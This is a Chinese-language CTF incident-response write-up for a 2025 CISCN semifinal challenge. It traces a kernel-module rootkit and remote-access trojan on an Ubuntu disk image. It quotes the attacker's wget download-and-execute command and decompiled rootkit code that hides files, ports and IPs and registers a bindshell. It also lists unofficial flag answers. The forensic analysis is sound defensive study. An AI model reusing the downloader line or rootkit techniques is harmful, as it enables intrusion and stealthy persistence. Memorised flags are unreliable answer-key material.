2025 长城杯 & 国赛 半决赛 ISW 应急响应

官方 writeup 未公布，无标准答案

<!-- truncate -->

:::info

小路是一名网络安全网管，据反映发现公司主机上有异常外联信息，据回忆前段时间执行过某些更新脚本 (已删除)，现在需要协助小路同学进行网络安全应急响应分析，查找木马，进一步分析，寻找攻击源头，获取攻击者主机权限获取 flag 文件。

入口主机请通过 ssh 进行登录，登录口令为：ubuntu/admin\_123456，如需 root 权限请使用 sudo；

- 第一层解压密码：`5e9c5e0370a9c29816b44dfbe2ae5a8d`
- 第二层解压密码：`81c7e0d7a82ee016e304fb847c31e497`

附件下载 -> [Release 附件下载・CTF-Archives/2024-CCB-CISCN-Semis](https://github.com/CTF-Archives/2024-CCB-CISCN-Semis/releases/tag/Attachment)

:::

## First of all

题目提供的是 `.raw` 格式的磁盘镜像

```plaintext
入口主机 dd 镜像. raw
```

尝试使用 `R-Studio` 进行加载





root 用户目录下无文件



存在有非 root 用户 `ubuntu`



## 1

> 找出主机上木马回连的主控端服务器 IP 地址 (不定时 (3\~5 分钟) 周期性)，并以 `flag{MD5}` 形式提交，其中 MD5 加密目标的原始字符串格式 `IP:port`

在 `ubuntu` 用户目录下找到一个 `txt` 文本文件

```plaintext title="/home/ubuntu/1.txt"
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

说明曾从 `http://mirror.unknownrepo.net/f/l/a/g/system_upgrade` 下载文件并储存为 `/tmp/.system_upgrade`

在用户目录下存在有 `viminfo` 缓存文件，在其中可以注意到



根据题目所说明的定时执行，以及 `viminfo` 文件，在 Linux 的服务文件中找到

```plaintext title="/etc/systemd/system/system-upgrade.service"
[Unit]
Description=system-upgrade
After=multi-user.target
[Service]
Type=forking
ExecStart=/sbin/insmod /lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko
[Install]
WantedBy=multi-user.target
```



可以使用 `tcpdump` 或者 `netstat` 尝试在独立的 Linux 环境中抓取网络行为

:::warning

需要注意的是，这里是 `.ko` 内核相关文件，可能会遇到 `netstat` 检测不到网络连接情况的问题，优先使用 `tcpdump` 直接抓取网卡流量

:::

尝试进行逆向分析



程序的符号表存在有一定混淆，但是程序本身伪代码逻辑并未混淆，可以定位到主体函数 `ULRYvXzICzy880dO`

```c title="ULRYvXzICzy880dO"
__int64 __fastcall ULRYvXzICzy880dO(__int64 a1)
{
    _fentry__(a1);
    Cr8YeLCPy17g2Kqp(a1);
    vH5iRF4rBcsPSxfk(a1);
    QODpPLbPPLRtk397(a1);
    ZRzAVZZOp3EIPba6();
    XnzbhEaPnydxn1rY((__int64)"HIDEME", (__int64)ZRzAVZZOp3EIPba6);
    XnzbhEaPnydxn1rY((__int64)"SHOWME", (__int64)bbiVzCN8llELLp6o);
    XnzbhEaPnydxn1rY((__int64)"HIDE_DENT", (__int64)Fmk3MFLuFCEiNxgN);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_DENT", (__int64)PiCa2rGqFOVs1eiB);
    XnzbhEaPnydxn1rY((__int64)"HIDE_TCP_PORT", (__int64)IDZO4NzptW8GaHzj);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_TCP_PORT", (__int64)ol186ifyeUPhXKNl);
    XnzbhEaPnydxn1rY((__int64)"HIDE_TCP_IP", (__int64)H7XMCPIhJup38DuP);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_TCP_IP", (__int64)yiA2lg0kW8v2vOp0);
    XnzbhEaPnydxn1rY((__int64)"HIDE_UDP_PORT", (__int64)cuC5zWc4iL4kPgAn);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_UDP_PORT", (__int64)LC22j9OZfANw81M7);
    XnzbhEaPnydxn1rY((__int64)"HIDE_UDP_IP", (__int64)YlfqRhWLKVqMFbxN);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_UDP_IP", (__int64)XBKrkXaghfenXrk6);
    XnzbhEaPnydxn1rY((__int64)"BINDSHELL_CREATE", (__int64)NVEKPqx35kIvfacV);
    XnzbhEaPnydxn1rY((__int64)"RUN_CUSTOM_BASH", (__int64)T34Z94ahif0BXQRk);
    Fmk3MFLuFCEiNxgN("systemd-agentd");
    Fmk3MFLuFCEiNxgN("system-upgrade");
    Fmk3MFLuFCEiNxgN("system_upgrade");
    IDZO4NzptW8GaHzj("4948");
    IDZO4NzptW8GaHzj("1337");
    H7XMCPIhJup38DuP("192.168.57.203");
    H7XMCPIhJup38DuP("127.0.0.1");
    cuC5zWc4iL4kPgAn("8080");
    return YlfqRhWLKVqMFbxN("127.0.0.1");
}
```

可以看得出来使用了检测规避技术，然后函数传参了 IP 地址和端口

- `system-upgrade` 位于 `/lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko`
- `systemd-agentd` 位于 `/lib/systemd/systemd-agentd`

```plaintext
192.168.57.203:4948
```

哈希后即可得到答案

```plaintext
flag{59110F555B5E5CD0A8713A447B082D63}
```

## 2

> 找出主机上驻留的远控木马文件本体，计算该文件的 MD5, 结果提交形式：`flag{md5}`

在 `system-upgrade.ko` 中注意到以下部分



定位到 `systemd-agentd` 位于 `/lib/systemd/systemd-agentd`

```powershell
PS D:\Desktop> Get-FileHash -Algorithm MD5 .\systemd-agentd

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             BCCAD26B665CA175CD02ACA2903D8B1E                                       D:\Desktop\systemd-agentd
```

即可得到答案

```flag
flag{bccad26b665ca175cd02aca2903d8b1e}
```

## 3

> 找出主机上加载远控木马的持久化程序 (下载者)，其功能为下载并执行远控木马，计算该文件的 MD5, 结果提交形式：`flag{MD5}`

此马就是 `system-upgrade` 位于 `/lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko`

```powershell
PS D:\Desktop> Get-FileHash -Algorithm MD5 .\system-upgrade.ko

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             78EDBA7CBD107EB6E3D2F90F5ECA734E                                       D:\Desktop\system-upgrade.ko
```

即可得到答案

```flag
flag{78edba7cbd107eb6e3d2f90f5eca734e}
```

## 4

> 查找题目 3 中持久化程序 (下载者) 的植入痕迹，计算持久化程序植入时的原始名称 MD5 (仅计算文件名称字符串 MD5)，并提交对应 `flag{MD5}`

在用户目录中可以看到

```plaintext title="/home/ubuntu/1.txt"
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

即可确定答案



```flag
flag{9729AAACE6C83B11B17B6BC3B340D00B}
```

## 5

> 分析题目 2 中找到的远控木马，获取木马通信加密密钥, 结果提交形式：`flag{通信加密密钥}`

对 `/lib/systemd/systemd-agentd` 样本进行分析，提取所有字符串，搜索 `/`



注意到存在有 `/proc/self/exe` 的调用



```asm
.rodata:00000000004BEFC0 a127001         db '127.0.0.1',0        ; DATA XREF: sub_405D33+41↑o
.rodata:00000000004BEFCA a2D             db '2 %d',0Ah,0         ; DATA XREF: sub_405D33+8C↑o
.rodata:00000000004BEFD0 ; const char path[]
.rodata:00000000004BEFD0 path            db '/proc/self/exe',0   ; DATA XREF: sub_405E44+2D↑o
.rodata:00000000004BEFD0                                         ; sub_4A2720+9↑o
.rodata:00000000004BEFDF aUnknown        db 'unknown',0Ah,0     ; DATA XREF: sub_4060F5:loc_4062BC↑o
.rodata:00000000004BEFE9 aOk             db 'OK',0               ; DATA XREF: sub_406339+C1↑o
.rodata:00000000004BEFEC aLocalhost      db 'localhost',0        ; DATA XREF: sub_40641D+1D↑o
.rodata:00000000004BEFF6 aSPC            db 's:p:c:',0           ; DATA XREF: sub_40641D:loc_406465↑o
.rodata:00000000004BEFF6                                         ; sub_468A40+207↑o ...
.rodata:00000000004BEFFD unk_4BEFFD      db  3Dh ; =             ; DATA XREF: .data:off_6EB168↓o
.rodata:00000000004BEFFE                 db    1
.rodata:00000000004BEFFF                 db  20h
.rodata:00000000004BF000                 db  3Ah ; :
.rodata:00000000004BF001                 db  36h ; 6
.rodata:00000000004BF002                 db  58h ; X
.rodata:00000000004BF003                 db  3Ah ; :
.rodata:00000000004BF004                 db  36h ; 6
.rodata:00000000004BF005                 db  1Dh
.rodata:00000000004BF006                 db    1
.rodata:00000000004BF007                 db  5Ah ; Z
.rodata:00000000004BF008                 db  36h ; 6
.rodata:00000000004BF009                 db  3Ah ; :
.rodata:00000000004BF00A                 db  5Ah ; Z
.rodata:00000000004BF00B                 db  0Ah
.rodata:00000000004BF00C                 db  3Bh ; ;
.rodata:00000000004BF00D                 db  5Ah ; Z
.rodata:00000000004BF00E                 db  1Dh
.rodata:00000000004BF00F                 db  36h ; 6
.rodata:00000000004BF010                 db  0Fh
.rodata:00000000004BF011                 db    5
.rodata:00000000004BF012                 db  29h ; )
.rodata:00000000004BF013                 db  0Eh
.rodata:00000000004BF014                 db    0
.rodata:00000000004BF015                 db    0
.rodata:00000000004BF016                 db    0
.rodata:00000000004BF017                 db    0
.rodata:00000000004BF018 aTheFutexFacili db 'The futex facility returned an unexpected error code.',0
